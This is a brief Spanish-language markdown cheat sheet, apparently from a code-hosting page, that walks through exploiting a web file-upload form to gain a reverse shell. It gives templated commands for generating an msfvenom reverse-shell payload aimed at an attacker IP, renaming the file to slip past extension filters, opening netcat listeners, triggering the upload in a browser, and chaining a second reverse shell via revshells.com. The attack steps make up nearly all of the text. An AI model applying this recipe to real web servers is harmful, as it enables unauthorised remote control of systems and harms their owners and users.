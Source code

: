 # 1.Encontrar un lugar que permita subir archivos
# 2.Encontrar la ruta en la que se suben los archivos

# 3.Crear un Payload para subir

```bash
msfvenom -p <"Payload con Reverse Shell"> LHOST=<"IP Atancante"> LPORT=<"Puerto de conexion a la maquina atacante"> -f <"Formato de Archivo"> > pwned.<"Extension del Payload">
```

# 4.Subir el Payload
## Bypass Extensión Restriction

Cuando el servidor web no permita subir archivos con una extensión, utilizaremos un archivo con otra extensión.

```bash
mv pwned.<"Extension Invalida"> pwned.<"Extension valida">
```
# 5.Poner la máquina a la escucha
## Netcat
```bash
nc -nlvp <"Puerto que hemos especificado en el payload">
```

# 6.Abrir en el navegador la ruta en la que se suben los archivo y abrir el Payload

# 7. Poner la máquina atacante a la escucha en otro puerto distinto

## Netcat
```bash
nc -nlvp <"Puerto a la escucha, distinto al del payload">
```

# 8.Enviar una reverse shell al nuevo puerto
Utilizando: https://www.revshells.com/